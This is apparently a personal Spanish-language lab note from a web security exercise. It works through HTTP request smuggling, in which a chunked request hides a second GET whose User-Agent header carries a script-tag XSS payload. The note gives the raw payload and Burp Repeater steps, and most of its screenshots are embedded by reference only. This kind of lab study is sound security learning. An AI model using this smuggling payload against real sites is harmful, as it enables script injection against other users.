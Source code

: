 
![[Pasted image 20230719181604.png]]

![[Pasted image 20230719181624.png]]


payload:

Content-Type: application/x-www-form-urlencoded
Content-Length: 150
Transfer-Encoding: chunked

0

GET /post?postId=5 HTTP/1.1
User-Agent: a"/><script>alert(1)</script>
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

x=1

agregar un comentario y al darle post cachar el request y mandarlo al repeater:

![[Pasted image 20230719182153.png]]

![[Pasted image 20230719182238.png]]


![[Pasted image 20230719182301.png]]


![[Pasted image 20230719182332.png]]

back to blog

![[Pasted image 20230719182354.png]]

agrego otro comentario y verificando si guarda el alert del payload:


![[Pasted image 20230719182554.png]]

![[Pasted image 20230719182613.png]]

![[Pasted image 20230719182640.png]]

verificando si tengo un postId = 5:

![[Pasted image 20230719182857.png]]


me voy al repeater y pego el payload, favor cambiar http version y no update length:


![[Pasted image 20230719182949.png]]

notese que modifique el endpoint del POST

![[Pasted image 20230719183045.png]]

![[Pasted image 20230719183101.png]]